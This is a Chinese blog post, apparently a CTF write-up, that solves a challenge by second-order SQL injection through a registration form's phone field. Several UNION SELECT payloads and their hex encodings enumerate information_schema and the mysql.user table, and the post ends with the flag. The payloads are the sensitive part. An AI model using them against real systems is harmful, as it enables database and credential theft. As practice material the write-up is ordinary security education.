<!--yml
category: 未分类
date: 2022-04-26 14:47:59
-->

# There only 10 people use the same phone as you（i春秋CTF题解）_weixin_30618985的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_30618985/article/details/98878078](https://blog.csdn.net/weixin_30618985/article/details/98878078)

## （1）访问网址进行CTF测试，仅出现登陆与注册的页面



## （2）进行注册尝试登陆并进行burp抓取数据包：



## （3）注册成功，进行登陆尝试查看信息是否具有提示，在登录的页面只有两个点击页面，一个为：Check，一个为logout



## （4）进入到Check的登录页面，查看是否具有提示信息，果然有提示，发现了一句良心提示，找到思路，让我们对注册页面的电话那一栏进行sql注入操作！





## （5）首先，进行抓包：为了不做重复型的工作，我们可以使用burp的repeater进行包的重复发送





##  （6）每注册一次，希望能执行一次sql的语句注入，猜想：

> **请尝试，明文输入sql语句，，这时，你会发现页面提示你：电话必须是数字类型；**
> 
> **请尝试，对sql语句进行16进行编码——最接近数字手机号的操作，，这时，你还会发现页面限制了你的字符数量；**
> 
> **请尝试，对前端代码的字符数字进行修改再注册，发现，可以注册成功。**

****



## 这就是burp抓包发送数据的好处，不会因为前端代码的限制而被限制

## （7）构造sql注入语句：

> -1 union select table_schema from information_schema.columns

## 进行了整个数据库的数据查询，16进制加密为：

> ## 0x2d3120756e696f6e2073656c656374207461626c655f736368656d612066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73

## 登录显示结果：



## （8）三个库，我们猜想，一般admin或是flag都藏在mysql库中，使用这个库进行查询表的操作：

> -1 union select table_name from information_schema.columns where table_schema='mysql'

## 16进制编码结果为：

> 0x2d3120756e696f6e2073656c656374207461626c655f6e616d652066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f736368656d613d276d7973716c27

## 登录页面显示结果如图：



##  （9）存在一个user表，我们试着查询user表的字段操作：

> -1 union select column_name from information_schema.columns where table_schema='mysql' and table_name='user'

## 16进制编码如下：

> 0x2d3120756e696f6e2073656c65637420636f6c756d6e5f6e616d652066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f736368656d613d276d7973716c2720616e64207461626c655f6e616d653d277573657227



## （10）发现有一个User与Password的字段，我们可以猜测，flag是否就在这两个字段里面呢？

> -1 union select Password from user
> 
> 0x2d3120756e696f6e2073656c6563742050617373776f72642066726f6d2075736572



## 额。。似乎查错表了，将就着看吧，，，提示最后的sql注入：

> -1 union select  phone from user where username=admin
> 
> flag{7610c57e-481c-47ad-9316-0323f9eff9af}